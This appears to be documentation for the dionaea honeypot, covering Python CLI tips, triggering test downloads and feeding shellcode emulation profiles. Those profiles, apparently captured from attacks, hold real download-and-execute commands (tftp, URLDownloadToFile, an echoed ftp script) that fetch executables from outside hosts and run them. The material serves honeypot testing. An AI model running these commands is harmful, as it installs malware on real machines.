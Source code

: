 Tips and Tricks
===============

dionaea embedds a python interpreter, and can offer a python cli
therefore too.
*The python cli is blocking*, if you start entering a command, the whole
process will wait for you to finish it, and not accept any new connections.
You can use the python cli to interact with dionaea, which is very
useful for development and debugging.


      Configuration

You can access the dionaea.conf via python (readonly)

from dionaea import g_dionaea
g_dionaea.config()


      Completition and History on the CLI

If you use the cli often, you can make it behave like a real shell,
including history and completition.

import rlcompleter, readline
readline.parse_and_bind('tab: complete')


      Triggering Downloads

Sometimes it helps to trigger a download, without waiting for an attack.
Very useful if you want to verify permissions are correct when switching
the user, or making sure a submission to a 3rd party works correctly.
You can trigger downloads for all major protocols.


        ftp

from dionaea.ftp import ftp
f = ftp()
f.download(None, 'anonymous','guest','ftp.kernel.org',21, 'welcome.msg', 'binary','ftp://ftp.kernel.org/welcome.msg')


        tftp

from dionaea.tftp import TftpClient
t = TftpClient()
t.download(None, 'tftp.example.com', 69, 'filename')


        http

As the http download is not done in python, we do not use the download
facility directly, but create an incident, which will trigger the download

from dionaea.core import incident
i = incident("dionaea.download.offer")
i.set("url", "http://www.honeynet.org")
i.report()



      incidents

incidents are the ipc used in dionaea.


        dumping

from dionaea.core import ihandler
class idumper(ihandler):
        def __init__(self, pattern):
                ihandler.__init__(self, pattern)
        def handle(self, icd):
                icd.dump()

a = idumper('*')


        emu profile

Small collection of various shellcode profiles gatherd from dionaea.


          CreateProcess Commands

This profile will trigger a download via tftp.

p='[{"call": "CreateProcess", "args": ["", "tftp.exe -i 92.17.46.208 get ssms.exe", "", "", "1", "40", "", "", {"dwXCountChars": "0", "dwFillAttribute": "0", "hStdInput": "0", "dwYCountChars": "0", "cbReserved2": "0", "cb": "0", "dwX": "0", "dwY": "0", "dwXSize": "0", "lpDesktop": "0", "hStdError": "68", "dwFlags": "0", "lpReserved": "0", "lpReserved2": "0", "hStdOutput": "0", "lpTitle": "0", "dwYSize": "0", "wShowWindow": "0"}, {"dwProcessId": "4712", "hProcess": "4711", "dwThreadId": "4714", "hThread": "4712"}], "return": "-1"}, {"call": "CreateProcess", "args": ["", "ssms.exe", "", "", "1", "40", "", "", {"dwXCountChars": "0", "dwFillAttribute": "0", "hStdInput": "0", "dwYCountChars": "0", "cbReserved2": "0", "cb": "0", "dwX": "0", "dwY": "0", "dwXSize": "0", "lpDesktop": "0", "hStdError": "68", "dwFlags": "0", "lpReserved": "0", "lpReserved2": "0", "hStdOutput": "0", "lpTitle": "0", "dwYSize": "0", "wShowWindow": "0"}, {"dwProcessId": "4712", "hProcess": "4711", "dwThreadId": "4714", "hThread": "4712"}], "return": "-1"}, {"call": "ExitThread", "args": ["0"], "return": "0"}]'
from dionaea.core import incident
i = incident("dionaea.module.emu.profile")
i.set("profile", str(p))
i.report()


          URLDownloadToFile

This profile will trigger a download.

p='[{"call": "LoadLibraryA", "args": ["urlmon"], "return": "0x7df20000"}, {"call": "URLDownloadToFile", "args": ["", "http://82.165.32.34/compiled.exe", "47.scr", "0", "0"], "return": "0"}, {"call": "WinExec", "args": ["47.scr", "895"], "return": "32"}]'
from dionaea.core import incident
i = incident("dionaea.module.emu.profile")
i.set("profile", str(p))
i.report()


          WinExec Commands

This profile uses WinExec to create a command file for windows ftp
client, downloads a file, and executes the file.

p='[{"call": "WinExec", "args": ["cmd /c echo open welovewarez.com 21 > i&echo user wat l0l1 >> i &echo get SCUM.EXE >> i &echo quit >> i &ftp -n -s:i &SCUM.EXE\\r\\n", "0"], "return": "32"}, {"call": "ExitThread", "args": ["0"], "return": "0"}]'
from dionaea.core import incident
i = incident("dionaea.module.emu.profile")
i.set("profile", str(p))
i.report()